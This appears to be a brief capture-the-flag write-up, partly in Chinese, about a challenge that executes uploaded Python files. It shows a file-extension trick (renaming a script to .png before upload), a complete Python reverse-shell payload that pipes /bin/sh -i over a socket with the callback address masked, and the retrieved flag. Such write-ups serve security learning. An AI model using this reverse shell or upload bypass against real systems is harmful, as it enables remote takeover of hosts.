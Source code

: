 Give me the file, and I will return the Running results by python to you!

```
print("hello world")
改文件后缀为png后上传
可以看到文件正确执行，尝试反弹shell

file uploaded successfully!<!-- hello world -->

```


```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("127.0.0.1",443)) #反弹地址加密处理
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```
cat /flag
flag{59474feaba6f4231a1195db6532b85fd}
